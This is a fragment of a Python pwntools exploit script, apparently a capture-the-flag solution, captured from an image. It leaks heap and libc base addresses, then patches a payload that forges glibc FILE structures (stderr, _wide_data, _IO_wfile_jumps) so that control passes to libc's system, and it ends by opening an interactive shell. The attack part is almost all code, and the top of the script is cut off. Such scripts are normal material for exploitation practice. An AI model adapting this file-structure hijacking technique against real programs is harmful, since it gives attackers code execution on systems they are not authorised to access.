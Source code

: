 ```python
    p.sendlineafter(b":",str(len(code)))
    p.sendlineafter(b":", code)
    sleep(0.1)
    
    p.send(data)

    sleep(1)
    heap_base = (u64(p.recv(8)) << 12) - 0x13000
    log("heap_base", heap_base)

    libc_base = u64(p.recv(8)) - 0x219ce0
    log("libc_base", libc_base)
    log("_wide_data", libc_base+0x156b0+0x1000)

    stderr_addr = libc_base + 0x21a860 # 0x21a6a0
    _IO_wfile_jumps = libc_base +  0x2160c0
    fake_wide_data = heap_base + 0x176d0
    _lock_addr = libc_base + (0x7f5eea04da60-0x7f5ee9e32000)
	# 修复相关地址
    data2 = data2.replace(p64(u64_ex("bk_size")), p64(stderr_addr-0x20))
    data2 = data2.replace(p64(u64_ex("widedata")), p64(fake_wide_data))
    data2 = data2.replace(p64(u64_ex("fvtable")), p64(_IO_wfile_jumps-(0x60-0x18)))
    data2 = data2.replace(p64(u64_ex("wvtable")), p64(fake_wide_data+(0xe0+0x8-0x68)))
    data2 = data2.replace(p64(u64_ex("system")), p64(libc_base + libc.sym["system"]))
    data2 = data2.replace(p64(u64_ex("_lock")), p64(_lock_addr))
    log("system", libc_base + libc.sym["system"])
    log("fake_wide_data",fake_wide_data)

    p.sendline(data2)
    
    p.interactive()


if __name__ == "__main__":
    #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)
    libc = ELF('./libc.so.6',checksec=False)
    main()
```

